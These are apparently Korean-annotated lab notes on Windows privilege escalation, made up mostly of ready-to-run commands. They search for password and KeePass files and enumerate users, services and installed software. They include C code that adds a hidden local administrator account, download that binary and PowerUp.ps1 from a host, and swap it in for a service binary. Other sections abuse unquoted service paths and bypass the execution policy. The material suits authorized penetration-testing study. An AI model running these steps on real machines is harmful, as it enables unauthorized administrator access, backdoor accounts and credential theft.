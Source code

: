 ```powershell
findstr /SIM /C:"pass" *.txt *.pdf *.xls *.xlsx *.doc *.docx *kdbx,*ini *.xml *.cfg *.config
```
- `/S`: 현재 디렉토리뿐 아니라 **하위 디렉토리까지 재귀적으로 검색**
- `/I`: **대소문자를 구분하지 않고** 검색
- `/M`: 문자열이 포함된 **파일 이름만 출력**

```bash
xampp
```
---
```powershell
Get-LocalUser

Get-LocalGroup

Get-LocalGroupMember adminteam
```
```powershell
systeminfo

ipconfig /all

route print

netstat -ano
```
```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
- 64비트 Windows에서 32비트 프로그램의 설치 목록을 레지스트리에서 조회합니다. 프로그램 이름(DisplayName)만 표시합니다.

Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
- 64비트 Windows에서 64비트 프로그램의 설치 목록을 레지스트리에서 조회합니다. 프로그램 이름(DisplayName)만 표시합니다.

Get-Process
```
```powershell
Get-ChildItem -Path C:\ `
 -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*kdbx,*ini `
 -File -Recurse -ErrorAction SilentlyContinue
```
```powershell
runas /user:backupadmin cmd
- 'backupadmin' 계정으로 명령 프롬프트(cmd)를 실행합니다. 해당 계정의 비밀번호 입력이 필요합니다.
```
```powershell
Get-History

(Get-PSReadlineOption).HistorySavePath
```
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
- 현재 실행 중인 Windows 서비스 목록을 조회합니다.

icacls "C:\xampp\apache\bin\httpd.exe"
- 지정된 파일(httpd.exe)의 접근 권한 목록을 표시하거나 수정합니다. 현재는 권한 확인 용도로 사용됩니다.
```
---
# Service Binary Hijacking
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
```powershell
iwr -uri http://192.168.48.3/adduser.exe -Outfile adduser.exe

move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe

net stop mysql

whoami /priv

shutdown /r /t 0
```
```powershell
iwr -uri http://192.168.48.3/PowerUp.ps1 -Outfile PowerUp.ps1

powershell -ep bypass

. .\PowerUp.ps1

Get-ModifiableServiceFile
- 서비스 실행 파일에 일반 사용자 쓰기 권한이 있는 경우를 찾아냄.
- 이 취약점은 악성 파일로 서비스 실행 파일을 교체하여 권한 상승(Privilege Escalation)이 가능하게 만듦.
```
---
# Unquoted Service Paths
```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
- WMIC를 사용하여 서비스 이름(`name`)과 실행 파일 경로(`pathname`)를 조회.
- C:\windows\\ 경로 제외한뒤 "가 포함된 경로 제외

Start-Service GammaService

Stop-Service GammaService

icacls "C:\Program Files\Enterprise Apps"
- 지정된 폴더(`C:\Program Files\Enterprise Apps`)의 ACL(Access Control List, 접근 제어 목록)을 표시.
- 해당 디렉터리에 대한 사용자·그룹별 권한(읽기, 쓰기, 실행 등)을 확인 가능.
- 권한이 잘못 설정된 경우 보안 취약점이 될 수 있음.
```
```powershell
#PowerUp.ps1
Get-UnquotedService

Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"

Restart-Service GammaService
```
---
# Scheduled Tasks
```powershell
schtasks /query /fo LIST /v
```
